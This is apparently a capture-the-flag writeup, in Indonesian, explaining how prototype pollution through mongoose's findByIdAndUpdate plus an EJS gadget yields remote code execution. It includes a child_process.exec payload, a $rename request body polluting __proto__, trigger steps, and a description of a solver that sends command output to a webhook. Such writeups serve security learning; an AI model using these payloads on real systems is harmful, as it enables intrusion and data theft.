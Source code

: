 # Writeup

> TLDR; Terdapat bug prototype pollution pada library mongoose, lebih tepatnya fungsi findByIdAndUpdate. Kemudian pada EJS, terdapat gadget prototype pollution yang dapat dimanfaatkan sehingga dapat mengubah attack menjadi RCE.

1. Buat sebuah notes baru dengan isi konten berikut:
    ```
    title: 1
    content: JSON.stringify; process.mainModule.require('child_process').exec('<command RCE>')
    ```
2. Edit notes tersebut dengan body request berikut:
    ```
    {
        "$rename": {
            "title": "__proto__.client",
            "content": "__proto__.escapeFunction"
        }
    }
    ```
    Step ini akan menyiapkan agar nantinya saat prototype pollution ditrigger, semua object akan terinject dengan dua atribut, yakni `client` dan `escapeFunction` yang secara berturut-turut akan berisi title dan content pada notes tersebut.
3. Lalu trigger prototype pollution dengan memanggil fungsi `find()` di URL `/stats`.
4. Panggil URL random agar website melakukan render pada error page yang secara tidak langsung akan mengeksekusi RCE.

## How to use solver
> Solver memanfaatkan query parameter pada HTTP untuk eksfiltrasi data

1. Ubah link webhook, command RCE, web target yang diinginkan pada `solver.py`
2. Jalankan `solver.py`, kemudian nanti akan muncul sebuah request pada webhook dengan query berupa base64 hasil dari command RCE yang dieksekusi.